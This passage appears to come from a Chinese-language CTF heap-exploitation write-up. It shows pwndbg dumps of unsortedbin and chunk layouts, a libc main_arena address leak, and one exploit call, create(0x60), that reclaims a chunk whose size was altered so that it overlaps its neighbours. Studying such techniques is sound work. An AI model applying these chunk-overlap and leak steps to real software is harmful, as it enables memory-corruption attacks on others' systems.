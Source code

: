 ```python
0x50: 0x0
0x60: 0x0
0x70: 0x0
0x80: 0x0
unsortedbin
all [corrupted]
FD: 0x555555757090 —▸ 0x7ffff7dd1b78 (main_arena+88) ◂— 0x555555757090
BK: 0x555555757090 ◂— 0x71 /* 'q' */
smallbins
empty
largebins
empty
pwndbg> 
```

继续根据exp调试，再次创建一个堆块，将unsortedbin中的chunk申请回来：

```python
create(0x60) #5
```

现在申请回来的chunk可以命名为index5

```python
pwndbg> x/70gx 0x555555757000
------------------------------------------------------------------------
0x555555757000: 0x0000000000000000  0x0000000000000021 #index0
0x555555757010: 0x6161616161616161  0x6161616161616161
------------------------------------------------------------------------
0x555555757020: 0x6161616161616161  0x0000000000000071 #index1 （chunk_size_changed）
0x555555757030: 0x0000000000000000  0x0000000000000000
......(省略数据的内容均为空)
------------------------------------------------------------------------
0x555555757090: 0x0000000000000000  0x0000000000000071 #index2（index5）
0x5555557570a0: 0x0000000000000000  0x0000000000000000 <-chunk_changed
......(省略数据的内容均为空)
------------------------------------------------------------------------
0x555555757100: 0x0000000000000000  0x0000000000000071 #index3(chunk_changed)
......(省略数据的内容均为空)
------------------------------------------------------------------------
0x555555757170: 0x0000000000000000  0x0000000000000071 #index4
......(省略数据的内容均为空)
------------------------------------------------------------------------
0x5555557571e0: 0x0000000000000000  0x0000000000020e21 #top_chunk
......(省略数据的内容均为空)
0x555555757220: 0x0000000000000000  0x0000000000000000
------------------------------------------------------------------------
pwndbg> bin
fastbins
0x20: 0x0
0x30: 0x0
0x40: 0x0
0x50: 0x0
0x60: 0x0
0x70: 0x0
0x80: 0x0
unsortedbin
all: 0x0
smallbins
empty
largebins
empty
pwndbg> 
```
